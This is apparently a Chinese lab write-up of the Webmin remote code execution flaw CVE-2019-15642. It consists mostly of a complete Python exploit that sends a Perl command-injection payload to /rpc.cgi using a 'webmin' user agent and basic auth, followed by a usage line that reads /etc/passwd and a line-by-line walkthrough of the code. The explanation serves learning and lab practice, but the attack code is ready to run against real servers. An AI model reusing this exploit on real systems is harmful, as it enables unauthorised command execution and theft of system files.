 webmin 远程代码执行 （CVE-2019-15642）

描述: vulfocus/webmin-cve_2019_15642



影响版本：
[Webmin <= 1.920]



漏洞原理：

在rawarg函数下存在反序列化漏洞

![image-20211024201745708](C:\Users\e'e't\AppData\Roaming\Typora\typora-user-images\image-20211024201745708.png)

为了触发我们需要两个先决条件的漏洞：

- **用户代理设置为“webmin”**(Webmin将其解释为使用基本auth而不是会话cookie的日志)；
- **有效基本权益**对于Webmin的用户(例如，使用新创建的具有默认权限的用户“toto”)。

一旦满足了这两个条件，我们就可以走得更远，四处看看。*非序列化变量*在……里面[Web-lib-funcs.pl](https://github.com/webmin/webmin/blob/master/web-lib-funcs.pl) :

![image-20211024201931897](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211024201931897.png)



漏洞利用：

这里找到poc

代码如下：

```python
import requests
import requests.packages.urllib3

requests.packages.urllib3.disable_warnings()
import sys
import base64
import re

banner = '''
   _______      ________    ___   ___  __  ___        __ _____   __ _  _ ___  
  / ____\ \    / /  ____|  |__ \ / _ \/_ |/ _ \      /_ | ____| / /| || |__ \ 
 | |     \ \  / /| |__ ______ ) | | | || | (_) |______| | |__  / /_| || |_ ) |
 | |      \ \/ / |  __|______/ /| | | || |\__, |______| |___ \| '_ \__   _/ / 
 | |____   \  /  | |____    / /_| |_| || |  / /       | |___) | (_) | | |/ /_ 
  \_____|   \/   |______|  |____|\___/ |_| /_/        |_|____/ \___/  |_|____|

                           python by jas502n 

                        Webmin RCE (Need Authorization)

   usage: python CVE-2019-15642.py https://xxx.xxx.xxx:10000 "cat /etc/passwd"                                                
'''


def CVE_2019_15642(url, auth_base64, cmd):
    vuln_url = url + '/rpc.cgi'
    headers = {
        "User-Agent": "webmin",
        "Connection": "close",
        "Content-Type": "application/x-www-form-urlencoded",
        "Authorization": "Basic %s" % auth_base64,
        "Content-Length": "70"
    }
    proxies = {
        'http': 'socks5h://127.0.0.1:1080',
        'https': "socks5h://127.0.0.1:1080"
    }

    payload = r'OBJECT CGI;print "Content-Type: Test\n\n";' + '$cmd=`%s`;print "$cmd";' % cmd
    print
    "payload= %s" % payload

    r = requests.post(url=vuln_url, data=payload, headers=headers, verify=False)
    if r.status_code == 200 and 'Content-type' in r.text:
        print
        "\nVuln_Url= %s\n" % vuln_url
        m = re.findall(r"(.+?)\nContent-type: text/plain", r.text, re.S)
        print
        ">>>Execute Response: \n%s" % m[0]
    else:
        print
        "No Vuln Exit!"


if __name__ == '__main__':
    print
    banner
    username = input("Please Input Webmin Username: ")
    password = input("Please Input Webmin Password: ")
    auth = username + ':' + password
    auth_base64 = base64.b64encode(auth)
    print
    '\n>>>Authorization: Basic %s\n' % auth_base64

    url = sys.argv[1]
    cmd = sys.argv[2]

    CVE_2019_15642(url, auth_base64, cmd)
```

使用指令如下：

python CVE-2019-15642.py https://xxx.xxx.xxx:10000 "cat /etc/passwd"`；print ”cmd“

![image-20211024204252902](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211024204252902.png)

手工如下：需要修改user-Agent和使用root-root账号

![image-20211024203755275](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211024203755275.png)

分析一下poc代码

```python
 CVE_2019_15642(url, auth_base64, cmd):
    vuln_url = url + '/rpc.cgi'
    headers = {
        "User-Agent": "webmin",
        "Connection": "close",
        "Content-Type": "application/x-www-form-urlencoded",
        "Authorization": "Basic %s" % auth_base64,
        "Content-Length": "70"
    }
```

文件头指定"User-Agent": "webmin",

```
payload = r'OBJECT CGI;print "Content-Type: Test\n\n";' + '$cmd=`%s`;print "$cmd";' % cmd
```

payload

```python
r = requests.post(url=vuln_url, data=payload, headers=headers, verify=False)
if r.status_code == 200 and 'Content-type' in r.text:
    print
    "\nVuln_Url= %s\n" % vuln_url
    m = re.findall(r"(.+?)\nContent-type: text/plain", r.text, re.S)
    print
    ">>>Execute Response: \n%s" % m[0]
else:
    print
    "No Vuln Exit!"
```

爬虫回显

```python
username = input("Please Input Webmin Username: ")
password = input("Please Input Webmin Password: ")
auth = username + ':' + password
auth_base64 = base64.b64encode(auth)
print
'\n>>>Authorization: Basic %s\n' % auth_base64

url = sys.argv[1]
cmd = sys.argv[2]

CVE_2019_15642(url, auth_base64, cmd)
```

遵循登录需要的编码协议



漏洞修复：

更新版本

